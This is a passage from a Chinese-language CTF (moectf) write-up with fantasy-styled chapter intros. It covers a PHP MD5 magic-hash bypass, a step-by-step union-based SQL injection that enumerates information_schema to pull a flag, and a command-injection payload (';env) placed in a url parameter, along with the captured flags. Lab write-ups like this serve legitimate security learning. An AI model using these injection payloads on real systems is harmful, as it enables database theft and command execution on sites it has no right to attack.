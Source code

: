 ```
http://127.0.0.1:56727/flag.php?a=QNKCDZO&b=240610708
```

```
moectf{md5_IS-not_SAfE1l1d8750fde52}
```

## 08 第八章 天衍真言，星图显圣

> 葬星古墟开启前夜，玄机阁底暗流涌动。HDdss以龟息诀化形为顽石，在无相玄光中潜行如影。当他穿过千机岩的密道，眼前的景象令他呼吸一滞——万卷廊并非凡间书阁，而是一片浩瀚星海！十万玉简如星辰流转，在九重天宇间循玄奥轨迹运行。

`union`注入，有固定的做题板子。

以`mysql`为例，它有固定的数据库``information_schema``储存表的信息。

先确定列数（需要占位）。

```
/?username=admin ORDER BY 2 --  &password=123
```

再查数据库（列数为`2`）。

```
/?username=' union select database(),1 -- &password=123
```

再查表名（数据库叫`user`）。

```
/?username=' union select (select table_name from information_schema.tables where table_schema='user' limit 0,1),1 -- &password=123
```

再查字段（表名为`flag`）。

```
/?username=' union select (select group_concat(column_name) from information_schema.columns where table_schema='user' and table_name='users'),1 -- &password=123
```

```
/?username=' union select (select value from user.flag),1 -- &password=123
```

```
moectf{UnlOn-BA5Ed_SqII-fTw1l124520155}
```

## 09 第九章 星墟禁制·天机问路

> 【星墟真名关】 虚空星域皆有名，真名隐于天机链。 欲入墟眼护重宝，且向玄鉴问幽玄！ ———输入星域真名，解析天机锁链

发现参数中包含`URL`，尝试下参数注入。

```
http://127.0.0.1:62026/?url='';env
```

